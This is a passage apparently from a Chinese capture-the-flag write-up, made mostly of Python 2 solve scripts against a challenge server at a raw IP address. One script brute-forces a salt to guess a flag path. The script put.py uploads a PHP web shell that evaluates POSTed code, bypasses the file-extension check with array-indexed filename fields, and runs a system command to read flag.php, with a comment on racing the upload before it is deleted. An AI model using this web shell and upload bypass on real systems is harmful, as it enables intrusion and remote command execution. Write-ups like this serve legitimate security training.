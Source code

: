 ```
    print salt
    if '404' not in r2.text:
    	print r2.text

get_flag('aaaaaa')
l=get_rand_list()
salt=get_salt(l)
s=0
for i in range(100000):
	s=s+1
print s
words = "10"
o=its.product(words,repeat=6)
for i in o:
	s="".join(i)
	salt2=""
	for j in range(6):
	    salt2+=chr(ord(salt[j])-int(s[j]))
	get_flag(salt2)
words = "10"
o=its.product(words,repeat=6)
for i in o:
	s="".join(i)
	salt2=""
	for j in range(6):
	    salt2+=chr(ord(salt[j])+int(s[j]))
	get_flag(salt2)
```



put.py

```
#通过`?action=test`调用`test_rand_code`函数发送6次`get_rand_code`结果，一共36个字符，
#然后提交一个构造好的`?action=test`，上传shell到服务器，在被删除之前就会被listen爆破得到，没爆破到就多爆破几次

#!/usr/bin/env python
#-*- coding:utf-8 -*-
#by xishir
import requests as req
import re

r=req.session()
url="http://120.78.57.208:6005/?action="


def get_test():
    url2=url+"test"
    r1=r.get(url2)
    print url2
    print r1.text
def upload():
    data={"filename[4]":"jpg",
          "filename[2]":"jpg",
          "filename[1]":"php",
          "content":"<script language='php'>assert($_POST[a]);</script>",
          "a":"system('cat ../../flag.php');"
          }
    url1=url+"upload"
    r2=r.post(url1,data=data)
    print r2.text

for i in range(6):
    get_test()
```